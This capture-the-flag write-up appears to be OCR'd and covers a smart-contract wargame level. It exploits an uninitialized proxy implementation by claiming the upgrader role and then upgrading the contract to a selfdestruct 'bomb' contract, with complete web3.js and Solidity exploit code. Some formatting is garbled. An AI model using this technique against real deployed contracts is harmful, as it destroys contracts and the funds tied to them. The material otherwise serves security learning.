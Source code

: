After drawing the diagram, I had many unanswered questions the most important one did we `initialize` the engine contract or not !
I really know where the address of the *Engine* contract is in storage so I can check that !

```js
const engineAddress = await web3.eth.getStorageAt(instance,'0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc');

// let's check the value
await web3.eth.call({to:engineAddress,from:player,data:web3.eth.abi.encodeFunctionSignature('upgrader()')})
// returned 0x000000
// the initialize() wasn't called and that's our -----
**Exploitation** !
```

-----
**-----
**Exploitation**ation**

1. initialize the *Engine* contract so we become the **upgrader**.
2. upgrade our *Engine* contract to our bomb contract ( which will selfdestruct )
3. call selfdestruct, the call will be done through *delegateCall* so the actual *Engine* will be destructed !

our evil contract

```js
contract BombEngine { 
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    function destruct() public {
        selfdestruct( payable ( 0x84e7a3679A82C2766Ff8382862ab883FF9460307));
    }
}
```

```js
const destructData= web3.eth.abi.encodeFunctionSignature('destruct()');

const data= web3.eth.abi.encodeFunctionCall({
    name: 'upgradeToAndCall',
    type: 'function',
    inputs: [{
        type: 'address',
        name: 'newImplementation'
    },{
        type: 'bytes',
        name: 'data'
    }]
}, [bombEngineAddress,destructData]);

await web3.eth.sendTransaction({to:engineAddress,from:player,data:data})

// You can do a random call to the Engine contract it will revert because it's gone !
```

Challenge solved ✅

